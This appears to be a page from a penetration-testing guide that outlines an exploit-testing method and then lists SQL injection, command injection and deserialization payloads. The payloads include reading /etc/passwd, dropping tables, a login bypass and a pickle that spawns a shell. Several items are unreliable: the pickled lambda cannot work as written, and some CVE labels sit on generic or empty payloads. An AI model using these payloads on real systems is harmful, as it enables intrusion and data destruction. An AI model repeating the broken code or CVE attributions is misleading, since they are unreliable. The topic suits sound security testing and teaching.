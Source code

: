 ### **Real-World Exploit Testing Methodology**

#### **Phase 1: Intelligence Gathering**
1. **Dark Web Monitoring**: Track exploit trading and threat actor discussions
2. **CVE Analysis**: Research latest vulnerabilities and proof-of-concepts
3. **Threat Intelligence**: Monitor security research and incident reports
4. **Technology Stack**: Identify target frameworks, versions, dependencies

#### **Phase 2: Exploit Development**
1. **Payload Creation**: Develop payloads based on real-world CVEs
2. **Proof of Concept**: Create working exploits for each vulnerability
3. **Impact Assessment**: Measure actual security impact and business risk
4. **Documentation**: Record exploitation steps and evidence

#### **Phase 3: Testing Execution**
1. **Automated Scanning**: Use enhanced tools with real-world payloads
2. **Manual Testing**: Apply advanced techniques and edge cases
3. **Exploitation**: Demonstrate real security impact
4. **Validation**: Confirm findings with working proof of concept

### **Enhanced Testing Payloads**

#### **SQL Injection (Based on Real CVEs)**
```sql
-- CVE-2025-1094 PostgreSQL
SELECT lo_export((SELECT convert_from(pg_read_file('/etc/passwd'),'UTF8')),'/tmp/passwd');

-- CVE-2025-25257 FortiWeb
'; DROP TABLE users--; CREATE TABLE test (id INT, data VARCHAR(255))--;

-- Real-world authentication bypass
admin' OR '1'='1' LIMIT 1 OFFSET 0--
```

#### **Command Injection (Real-World Techniques)**
```bash
# Timing-based detection
; sleep 5
& ping -c 5 127.0.0.1
` sleep 5 `

# Output capture
; cat /etc/passwd
& whoami
` id `
```

#### **Deserialization (Based on Real Exploits)**
```python
# CVE-2025-49113 Roundcube (PHP)
O:8:"stdClass":1:{s:4:"test";s:4:"eval";}

# CVE-2024-52046 Apache MINA (Java)
# Malicious serialized object payload

# Python pickle (Real-world)
import pickle, subprocess
malicious = pickle.dumps(lambda: subprocess.call(["/bin/sh", "-c", "id"]))
```

